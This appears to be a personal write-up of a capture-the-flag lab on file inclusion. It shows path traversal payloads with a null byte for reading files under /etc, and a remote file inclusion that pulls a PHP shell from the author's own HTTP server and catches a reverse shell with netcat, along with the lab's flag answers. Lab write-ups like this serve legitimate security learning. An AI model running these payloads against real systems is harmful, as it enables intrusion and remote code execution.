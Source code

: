 `visit http://10.10.61.224/challenges/index.php`

![[Pasted image 20220821122714.png]]

`POST/Content-Type: application/x-www-form-urlencoded/file=/etc/flag1`
Capture Flag1 at /etc/flag1 *F1x3d-iNpu7-f0rrn*

`First, change cookie parameter; THM to admin and then after once you login as Admin, change THM to ../../../../etc/flag2%00`

![[Pasted image 20220821123458.png]]

Capture Flag2 at /etc/flag2 *c00k13_i5_yuMmy1*

![[Pasted image 20220821123952.png]]

Capture Flag3 at /etc/flag3 *P0st_1s_w0rk1in9*

```monkey php change vpn ip and port 
┌──(kali㉿kali)-[~/Downloads/hacked]
└─$ ls
Capture.pcapng  shell.php
                                                                                 (start simple http server)         
┌──(kali㉿kali)-[~/Downloads/hacked]
└─$ python3 -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.61.224 - - [21/Aug/2022 13:49:03] "GET /shell.php HTTP/1.1" 200 -

```

```after file upload ur file
http://10.10.61.224/playground.php?file=http://10.18.1.77:8000/shell.php
```

```start netcat listener
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.18.1.77] from (UNKNOWN) [10.10.61.224] 54644
Linux lfi-vm-thm-f8c5b1a78692 5.4.0-1057-aws #60~18.04.1-Ubuntu SMP Thu Sep 9 20:38:09 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:49:04 up  2:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
whoami
www-data
hostname
lfi-vm-thm-f8c5b1a78692
```
Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output? *lfi-vm-thm-f8c5b1a78692*

[[IDOR]]
